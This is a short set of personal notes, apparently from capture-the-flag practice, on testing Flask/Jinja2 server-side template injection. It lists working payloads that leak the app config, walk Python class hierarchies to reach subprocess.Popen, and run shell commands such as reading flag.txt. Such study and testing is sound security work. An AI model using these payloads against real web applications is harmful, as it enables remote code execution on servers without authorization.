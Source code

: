 ## Test SSTI

- Methodology in Payload all the things is very cool

- Start by testing all the language to find the good one


### jinja2

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

- `{{config.items()}}`
- `{{config.from_object('os')}}*`
- `{{config.items()}}`
- `{{''.__class__.__mro__}}`
- `{{''.__class__.__mro__[<index>].__subclasses__()}}`
- Pay attention when you are searching for subclasses, you may have to change the index (it's 1 in the cheat sheet, but could be different)
- When you want to search your index, copy paste the entire result in a variable in python, and use `<var>.split("<delimiter(for me ,)>")`
- then `<var>.index("<desired_function(for me <class 'subprocess.Popen'>)")`. Pay attention, it could have a space at the beginning.
- Or easier way : put it in vim, and substitute /> by a carriage return : `%S />/\r/g` and then find it.
- If you have subprocess.Popen, jackpot :)
- Check if it's the good one : `{{''.__class__.__mro__[<index>].__subclasses__()[<index_found>]}}`
- Then, go back on your system and understand how the function works (subprocess.popen and os.popen are different)
- subprocess.Popen(["ls", "-a"])
- suprocess.Popen("ls -a", shell=True)
- Then add communicate function to read it
- suprocess.Popen("ls -a", shell=True, stdout=-1).communicate()[0]
`{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}`
